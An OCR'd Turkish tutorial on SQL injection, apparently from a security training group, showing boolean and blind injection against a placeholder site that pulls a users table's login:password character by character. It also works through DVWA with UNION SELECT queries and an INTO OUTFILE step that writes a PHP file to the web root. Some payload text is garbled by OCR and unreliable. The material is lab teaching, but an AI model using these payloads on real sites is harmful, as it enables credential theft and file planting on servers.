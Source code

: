 ## SIBERVATAN

# SQL INJECTION

Emre Do ̆gan

emreefedogan@gmail.com

Mart 2021


**SQL - SQL Injection Nedir?**

SQL Injectionı anlamak için öncelikle SQL’in ne oldu ̆gunu ve nasıl çalı ̧stı ̆gını bilmek gerek-
mektedir. SQL(Structured Query Language), yapılandırılmı ̧s sorgulama dilidir.SQL, veri depo-
lamak, de ̆gi ̧stirmek ve i ̧slemek için kullanılan veritabanı yönetim sistemidir. Bir programlama
dili de ̆gildir. SQL tutoriallarını inceleyerek daha fazla bilgi edinebilirsiniz^1.

**Nedir bu SQL Injection?**

SQL’in ne oldu ̆guna de ̆gindi ̆gimize göre SQL Injection konusuna de ̆ginelim. SQL Injection,
veritabanlarını hedef alan siber saldırı çe ̧sididir. Saldırganların SQL sorgularının çalı ̧stıra-
bilmesidir. Sql sorgularının çalı ̧stırılması sonucunda güvenlik açı ̆gından yararlanarak verita-
banına ula ̧sılır. Sql injection sayesinde web sitesindeki kullanıcı bilgileri edinilebilir. gizlen-
mi ̧s bilgiler ve verilere ula ̧sılabilir. Mevcut olan verileri de ̆gi ̧stirebilir.Yetki yükseltilebilir veya
tamamen veritabanı silinebilir. Genel i ̧sleyi ̧s mantı ̆gı Figure 1’de görülmektedir..

```
Figure 1: Sql Injection Akis Diyagrami
```
**SQL injection içeren siteleri nasıl tespit ederiz?**

̇Ilk olarak yapaca ̆gımız sayfadaki kullanıcı girdisini aramak olmalıdır. Genelde html say-

falarında kullanıcının girdilerini gönderirken POST methodu kullanılmaktadır. Sayfanın
adresinde parametreler göremeyiz. Bu durumla kar ̧sıla ̧stı ̆gımızda kaynak kodunu inceleyerek
hangi parametlerin gönderildi ̆gini bulabiliriz.

(^1) https://www.w3schools.com/sql/


**Basic SQL Injection**

Sql injection, hedef sitenin veritabanında sql sorgularını çalı ̧stırarak login bypass yapmamıza
ve verileri elde edebilece ̆gimiz sorgular atabilece ̆gimizi biliyoruz. Bir uygulama yapalım:
Hedef sitemiz : [http://testphp.vulnweb.com](http://testphp.vulnweb.com) Sql injection saldırılarımızı bu sitede deneyelim.
[http://testphp.vulnweb.com/listproducts.php?cat=1](http://testphp.vulnweb.com/listproducts.php?cat=1) adresine girdi ̆gimizde :

```
Figure 2: http://testphp.vulnweb.com/listproducts.php?cat=
```
1 id ye ait bir sayfa önümüze geliyor. Peki bunu 2 , 3 yaptı ̆gımızda ne olacak muhtemelen
sayfada bazı de ̆gi ̧siklikler meydana gelecektir.

```
Figure 3: http://testphp.vulnweb.com/listproducts.php?cat=
```

```
Figure 4: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=
```
Php kodlarında sql injection ̧su ̧sekilde i ̧sler sorgu parametresi altında bu kod çalı ̧sır
“SELECT * FROM tablonunadı WHERE id = _c at_ “
Bu php koduna baktı ̆gımızda gördü ̆gümüz ̧sey ̧sudur; Tablomuzun adı sibervatan olsun
diyelim. ̇Ilk önce Sibervatan tablosuna git. Idsi verilen kısmı getir. Sql sorgu mantı ̆gının
php de nasıl çalı ̧sma gösterdi ̆gini anlattık. ̧Simdi gelelim buradaki ‘’cat” de ̆gi ̧skenine farklı
numaralar girdi ̆gimizde, farklı sonuçlar önümüze çıkmaktadır. Bu giri ̧si atlatmak için ‘’or” ,
‘’and’ mantıksal ifadelerini tercih etmekteyiz.


```
Figure 5: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=
```
Olu ̧san sorgularımız php kodunda ̧su ̧sekildedir.
“ SELECT * FROM tablonunadı WHERE id = _c at_ “ _and_ 1 = 1
“ SELECT * FROM tablonunadı WHERE id = _c at_ “ _and_ 1 = 0
Veritabanında 1=1 kısmı TRUE olarak bize dönerken 1=0 kısmı bize FALSE dönü ̧sü yap-
maktadır.
E ̆ger yaptı ̆gımız iki sorgudan TRUE ve FALSE olanları farklı dönü ̧sler verirse sql injection
zafiyeti mevcuttur diyebiliriz.
Yaptı ̆gımız sql injection saldırılarında, sql syntaxi önemlidir. Hata alıp hangi sql yapısını
çalı ̧stı ̆gını ö ̆grenebiliriz bunu da tek tırnak ile yapıyoruz.


```
Figure 6: http://testphp.vulnweb.com/listproducts.php?cat=2’
```
```
Veritabanı sisteminin bu hata ile mysql oldu ̆gu net olarak anla ̧sılmaktadır.
```
**Blind SQL Injection**

Blind sql injection, sql injection saldırılarına göre daha farklıdır. Çünkü veritabanı bilgisi
gerektirmektedir. Veritabanında TRUE FALSE yaparak bir yol bulunmaya çalı ̧sılır.
Blind Sql Injection senaryosu:
1-) [http://www.hedefwebsite.com/activity.php?id=1121](http://www.hedefwebsite.com/activity.php?id=1121) and 1=1 yapmayı deneyelim.
Kar ̧sımıza normal sayfa gelmektedir.
2-) [http://www.hedefwebsite.com/activity.php?id=1121](http://www.hedefwebsite.com/activity.php?id=1121) and 1=2 yapmayı deneyelim..
Sayfa bizi 404 e yönlendirmektedir. Bir de ̆gi ̧sim meydana geldi. E ̆ger and 1=1 yaptı ̆gımızda
da 404 e yönlendirseydi bir ̧sey olmadı ̆gını dü ̧sünürdük fakat and 1=1 de normalken yanlı ̧s
durumunda (and 1=2) sayfa da yanlı ̧s oluyor. Yani blind sql oldu ̆gunu kanıtlıyor. Hata
sayesinde mysql oldu ̆gunu ö ̆grendik.
3-) ̧Simdi mysql versiyonunu bulalım. [http://www.hedefwebsite.com/activity.php?id=](http://www.hedefwebsite.com/activity.php?id=)
and substring(version(),1,1)=4 sayfa bize true olarak dönü ̧s sa ̆gladı. E ̆ger 4 yerine 5 yazmı ̧s
olsaydık versiyonu 5 olmadı ̆gı için 404 verecekti. Versiyonunu bu sayede Versiyon 4 olarak
bulduk.


4-)Bu sitede select seçme komutunu kabul ettirebilip ettiremedi ̆gimize bakalım.
[http://www..hedefwebsite.com/activity.php?id=1121+and+(select](http://www..hedefwebsite.com/activity.php?id=1121+and+(select) 1)=1 sayfa yine bize
true olarak döndü o halde devam etmeliyiz. ̧Simdi users tablosuna blind komutu ile tabloyu
test edelim. [http://www.hedefwebsite.com/activity.php?id=1121](http://www.hedefwebsite.com/activity.php?id=1121) and (select 1 from tablo
limit 0,1)=
5-) ̧simdi tablo adına tablo dedik 404 e yönlendirecektir, çünkü öyle bir tablo adı bulunma-
makta. Tablo kısmını users yapıp deneyebiliriz. [http://www.hedefwebsite.com/activity.php?id=](http://www.hedefwebsite.com/activity.php?id=)
and (select 1 from users limit 0,1)=
tablo adına users verince bize true olarak sayfa döndü. O halde devam etmeliyiz. ̧Simdi
users’e ait kolonları test edelim. [http://www.hedefwebsite.com/activity.php?id=1121](http://www.hedefwebsite.com/activity.php?id=1121) and (se-
lect substring(concat(1,column),1,1) from users limit 0,1)=1 boyle girdi ̆gimizde yine bizi 404 e
atacaktır bu yüzden column kısmını de ̆gi ̧stirmeliyiz. [http://www.hedefwebsite.com/activity.php?id=](http://www.hedefwebsite.com/activity.php?id=)
and (select substring(concat(1,login),1,1) from users limit 0,1)=1 login yaptı ̆gımızda sayfa bize
true dönecektir. Login yerine password yazarak 1.harf, 2.harf, 3.harf ̧seklinde login ve pass-
word çekmi ̧s olduk. [http://www.hedefwebsite.com/activity.php?id=1121](http://www.hedefwebsite.com/activity.php?id=1121) and ascii(substring((SELECT
concat(column1,0x3a,column2) from tablo limit 0,1),1,1))>95 Verileri birle ̧stirmek için assci
karakterlerinden yararlanılır. 97 bunu temsil ediyor. [http://www.asciitable.com/](http://www.asciitable.com/) adresinden
bu karakterlere detaylı bakılabilir. Ayrıca Blind Sql Injection için kullanılan kodlara ula ̧smak
için google’ye SQL Injection Cheat Sheet yazarak detaylı inceleyebilirsiniz.
[http://www.hedefwebsite.com/activity.php?id=1121](http://www.hedefwebsite.com/activity.php?id=1121) and ascii(substring((SELECT con-
cat(login,0x3a,password) from users limit 0,1),1,1))>96 Sayfa düzgün gelmekte fakat sayfanın
false dönece ̆gi yeri bulmak önemlidir.
Bu ascii kodlarını girerek sayfa hangi de ̆gerde false dönerse o de ̆gere kar ̧sılık olan harf
bizim ilk harfimiz olacaktır.
[http://www.hedefwebsite.comactivity.php?id=1121](http://www.hedefwebsite.comactivity.php?id=1121) and ascii(substring((SELECT con-
cat(login,0x3a,password) from users limit 0,1),1,1))>
Diyelim ki 96 yazdı ̆gımızda sayfa true döndü ancak 97 yazdı ̆gımızsa sayfa false döndü o
halde 97 de ̆gerine ascii tablosunda kar ̧sılık gelen harf bizim ilk harfimiz oldu. 97 ascii koduna
kar ̧sılık gelen harf a dır. O halde ilk harfimiz a.
admin olabilece ̆gini tahmin edelim diyelim. ̧Simdi 2. harfi denemek için 1,1 kısmını
de ̆gi ̧stiriyoruz. ve 2,1 yapıyoruz.
[http://www.hedefwebsite/activity.php?id=1121](http://www.hedefwebsite/activity.php?id=1121) and
ascii(substring((SELECT concat(login,0x3a,password) from users limit 0,1),2,1))>99 Bu
̧sekilde deneyerek buluyoruz.
Yani, Sql blind injection deneme-yanılma yöntemi ile sitenin verdi ̆gi tepkiler üzerinde


göz önüne alınarak veritabanı bilgilerini görüntülemek ̧seklinde özetlenebilmektedir.

**SQL INJECTION DVWA (LOW LEVEL) ÇÖZÜMLER ̇I**

Damn Vulnerable Web Application (DVWA),Web uygulama güvenli ̆gi ile u ̆gra ̧san kendini
geli ̧stirmek isteyen pentestler veya güvenlik açıklarıyla u ̆gra ̧san ki ̧siler için php ile geli ̧stir-
ilmi ̧s belirli zafiyetler barındıran sistemdir. Biz DVWA sisteminde SQL Injection zafiyetini
inceleyece ̆giz. Öncelikle 1 or ‘1’=’1 denemesiyle Sql injection tespitini yapmaktayız ve tek
tırnak ile yapıldı ̆gını görmekteyiz.

```
Figure 7: 1 or ‘1’=’
```
1 id ye ait bir sayfa önümüze geliyor. Peki bunu 2 , 3 yaptı ̆gımızda ne olacak muhtemelen
sayfada bazı de ̆gi ̧siklikler meydana gelecektir.


- Figure 8: Veritabanı Kolon Sayısı Tespiti 1 UNION SELECT 1,


**Figure 9:** Veritabanı Versiyon Bilgisi 1 UNION SELECT version(),2 sorgusu ile versiyon bilgisini elde
ediyoruz.

**Figure 10:** Veritabanının ̇Isim Bilgisi 1 UNION SELECT database(),2 sorgusu ile database ismine
ula ̧smaktayız


**Figure 11:** Tabloların Kolonlarının Belirlenmesi 1(UNION SELECT
column _name_ , 2 _F ROMi n f or mat i onschema_. _col umnsW H E RE t abl eschema_ =′
_d v w a_ ′ _AN D t abl ename_ =′ _user s_ ′)


```
Figure 12: Tablolardaki Verileri Ekrana Yazdırma 1’ UNION SELECT
first name , l astnameF ROMuser s
```
**Figure 13:** SORGU ̇ILE DOSYA EKLEME 1 UNION SELECT ‘<?php echo "emre efe";’,’?>’ INTO OUTFILE
‘/var/www/html/dvwa/emreefe.php’


**Figure 14:** Sorgu sonucunda dosyamızı da ba ̧sarıyla eklemi ̧s olduk. E ̆ger ki dosya ekleme saldırısını
yapmaya çalı ̧stı ̆gında okuma ve yazma yetkiniz yok gibi bir hata alıyorsanız.Linux sistemininizde dvwa
nın bulundu ̆gu yere okuma ve yazma izni vererek bu saldırı metodunu deneyebilirsiniz.


